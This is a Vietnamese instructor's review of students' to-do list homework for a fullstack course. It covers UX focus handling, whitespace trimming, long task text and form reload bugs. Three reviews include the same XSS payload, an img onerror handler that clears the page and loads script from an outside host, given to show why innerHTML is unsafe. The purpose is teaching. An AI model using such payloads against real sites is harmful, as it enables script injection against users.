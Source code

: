 # Review bài tập về nhà buổi 27 - Lớp Fullstack K5

## [Le Tung Duong](https://duong1801.github.io/f8-fullstack-k5/Day-27/)

- Khi người dùng mới truy cập nên focus vào luôn ô `input` thêm task để tăng trải nghiệm người dùng.

- Khi người dùng thực hiện thêm task thông qua việc click vào nút `Add Task` thì sau đó ô nhập task nên được focus như khi thêm task bằng các cách nhấn nút `Enter`.

- Chưa xử lý case người dùng nhập vào một task có nội dung quá dài.

- Do đang sử dụng innerHTML, có thể xảy ra lỗi khi người dùng cố tình nhập một script vào.

  ```js
  <img
    src=""
    onerror='b=document,a=b.body;a.innerHTML="";a.appendChild(c = b.createElement("script"),c.type="module",c.innerHTML=`import {HTML} from "https:\/\/unpkg.com/jsvjp";HTML("h1", "error", "HACKED!")`);a.appendChild(d=b.createElement("link"),d.rel="stylesheet",d.href="https:\/\/unpkg.com/jsvjp/style.css");'
  />
  ```

- Sau khi người dùng bấm vào sửa task nên focus luôn vào ô `input` mà người dùng cần chỉnh sửa để tăng trải nghiệm người dùng.

- Chưa xử lý case chuyển đổi trạng thái của một task sang đã hoàn thành và ngược lại.

- Sau khi sửa task bấm vào `Enter` thì bị reload trang do mặc định của thẻ `form` khi `submit`.

- [x] Đánh giá chung: Bài làm ổn, cần lưu ý một số case đặc biệt cần xử lý để hoàn thiện hơn.

## [Nguyen Tien Dat](https://tiendat211294.github.io/f8_offline_k5/buoi-27/)

- Khi người dùng mới truy cập nên focus vào luôn ô `input` thêm task để tăng trải nghiệm người dùng.

- Khi người dùng thực hiện thêm task thông qua việc click vào nút `Add Task` thì sau đó ô nhập task nên được focus như khi thêm task bằng các cách nhấn nút `Enter`.

- Chưa xử lý case nếu như người dùng chỉ nhập vào khoảng trắng thì sẽ không được cho thêm task hoặc sửa task, nên sử dụng phương thức `trim()` để loại bỏ khoảng trắng .

- Trường hợp khi người dùng nhập vào nội dung một task quá dài thì nên căn chỉnh phần thêm task ở chính giữa màn hình, không để nội dung của task quá sát với nút chỉnh sửa task, và khi nội dung đạt đến một dộ dài nhất định thì nên xuống dòng.

- Do đang sử dụng innerHTML, có thể xảy ra lỗi khi người dùng cố tình nhập một script vào.

  ```js
  <img
    src=""
    onerror='b=document,a=b.body;a.innerHTML="";a.appendChild(c = b.createElement("script"),c.type="module",c.innerHTML=`import {HTML} from "https:\/\/unpkg.com/jsvjp";HTML("h1", "error", "HACKED!")`);a.appendChild(d=b.createElement("link"),d.rel="stylesheet",d.href="https:\/\/unpkg.com/jsvjp/style.css");'
  />
  ```

- Sau khi người dùng bấm vào sửa task nên focus luôn vào ô `input` mà người dùng cần chỉnh sửa để tăng trải nghiệm người dùng.

- Trường hợp nếu người dùng bấm vào sửa task rồi xoá hết nội dung của task và vẫn nhấn `Add  Task` hoặc `Enter` thì nên xử lý và không cho render ra task trống sẽ hợp lý hơn.

- Chưa xử lý case chuyển đổi trạng thái của một task sang đã hoàn thành và ngược lại.

- [x] Đánh giá chung: Bài làm ổn, cần lưu ý một số case đặc biệt cần xử lý để hoàn thiện hơn.

## [Ngo Hoang Kim](https://kzau1612.github.io/FSK5/FSK5/day_27/)

- Khi người dùng mới truy cập nên focus vào luôn ô `input` thêm task để tăng trải nghiệm người dùng.

- Khi người dùng thực hiện thêm task thông qua việc click vào nút `Add Task` thì sau đó ô nhập task nên được focus như khi thêm task bằng các cách nhấn nút `Enter`.

- Trường hợp khi người dùng nhập vào nội dung một task quá dài, khi nội dung đạt đến một dộ dài nhất định thì nên xuống dòng.

- Khi thêm một task mới vào nên để task đó ở vị trí đầu tiên sẽ hợp lý hơn so với để ở cuối.

- Do đang sử dụng innerHTML, có thể xảy ra lỗi khi người dùng cố tình nhập một script vào.

  ```js
  <img
    src=""
    onerror='b=document,a=b.body;a.innerHTML="";a.appendChild(c = b.createElement("script"),c.type="module",c.innerHTML=`import {HTML} from "https:\/\/unpkg.com/jsvjp";HTML("h1", "error", "HACKED!")`);a.appendChild(d=b.createElement("link"),d.rel="stylesheet",d.href="https:\/\/unpkg.com/jsvjp/style.css");'
  />
  ```

- Sau khi người dùng bấm vào sửa task nên focus luôn vào ô `input` mà người dùng cần chỉnh sửa để tăng trải nghiệm người dùng.

- Chưa xử lý case chuyển đổi trạng thái của một task sang đã hoàn thành và ngược lại.

- Khi thực hiện việc sửa nhiều task mà tất cả các task cần sửa chưa task nào đã hoàn thành việc chỉnh sửa thì chỉ cần một nhấn `Enter` hoặc bấm vào `Add Task` ở một task bất kì thì các task còn lại tự động hoàn thành việc chỉnh sửa. Hay khi trong lúc chỉnh có nhiều task chưa hoàn thành việc chỉnh sửa có một task mới được thêm vào hoặc có một task bị xóa đi thì toàn bộ các task sẽ tự động hoàn thành việc chỉnh sửa trừ task được chuyển qua trạng thái chỉnh sửa hoặc được focus cuối cùng trước khi thêm hoặc xóa một task và sau khi nhấn `Enter` hoặc bấm vào `Add Task` thì trang sẽ reload.

- [x] Đánh giá chung: Bài làm chưa tốt, cần lưu ý một số case đặc biệt cần xử lý để hoàn thiện hơn và cần dành nhiều thời gian hơn cho bài tập.

## [Nguyen Van Thang](https://nvthang391.github.io/btjs/bt27.html)

- Khi người dùng mới truy cập nên focus vào luôn ô `input` thêm task để tăng trải nghiệm người dùng.

- Khi người dùng thực hiện thêm task thông qua việc click vào nút `Add Task` thì sau đó ô nhập task nên được focus như khi thêm task bằng các cách nhấn nút `Enter`.

- Chưa xử lý case khi người dùng không nhập dữ liệu khi thêm task, nếu người dùng không nhập dữ liệu thì không cho thêm task.

- Chưa xử lý case nếu như người dùng chỉ nhập vào khoảng trắng thì sẽ không được cho thêm task hoặc sửa task, nên sử dụng phương thức `trim()` để loại bỏ khoảng trắng.

- Trường hợp khi người dùng nhập vào nội dung một task quá dài thì nên căn chỉnh phần thêm task ở chính giữa màn hình, không để nội dung của task quá sát với nút chỉnh sửa task.

- Chưa làm chức năng sửa nội dung task.

- Chưa xử lý case chuyển đổi trạng thái của một task sang đã hoàn thành và ngược lại.

- [x] Đánh giá chung: Bài làm chưa tốt, còn rất nhiều case đặc biệt cần xử lý để hoàn thiện và cần dành nhiều thời gian hơn cho bài tập, lưu ý cách quản lý folder và các file.
